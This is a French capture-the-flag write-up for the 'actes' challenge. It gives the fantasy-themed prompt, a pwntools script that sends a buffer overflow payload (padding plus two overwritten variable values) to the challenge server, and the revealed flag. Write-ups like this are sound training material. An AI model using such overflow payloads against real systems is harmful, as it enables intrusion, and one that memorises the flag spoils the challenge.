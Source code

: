 ## Enoncé

>Dans les récits anciens, il est dit que même les plus grands guerriers de Naori ne pouvaient triompher que s'ils combinaient force et finesse. Chaque acte devait être soigneusement exécuté, car le moindre faux pas pouvait les priver de leur victoire. Pour ceux qui souhaitent véritablement accéder aux secrets ultimes de l'île, une épreuve consistant à manipuler les forces à l'intérieur des sanctuaires les attend.
>
>Après avoir traversé des forêts denses et surmonté de nombreuses épreuves, vous arrivez devant un sanctuaire oublié, caché dans les entrailles de la montagne sacrée de Naori. À l'intérieur, une inscription gravée dans la pierre vous avertit :
>
>"Les actes que tu poseras ici détermineront ton destin. Ce n'est pas la force brute qui te fera triompher, mais la précision de tes actions."
>
>Devant vous se trouve un ancien dispositif de sécurité magique, une épreuve qui teste votre capacité à manipuler des forces invisibles, représentées ici par des variables mystiques. Pour réussir, vous devrez échanger les rôles de ces forces et prouver que vous êtes digne de poursuivre votre quête.

![actes](../../../../attachements/actes)
## Résolution


Definition du payload : 
```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or 'actes')

p = remote("challenges.hackagou.nc", 5002)

var_2 = p32(0xbeefc0de)  
var_1 = p32(0xdeadbabe)  
payload = b'A' * 40 + var_1 + var_2  

p.recvuntil(b'\n\n')
p.sendline(payload)
p.interactive()
```


>[!question]- Spoiler du flag
> OPENNC{13_Gu3rR13r_4g17_4v3c_54g35s3_3t_Br4v0uR3...}

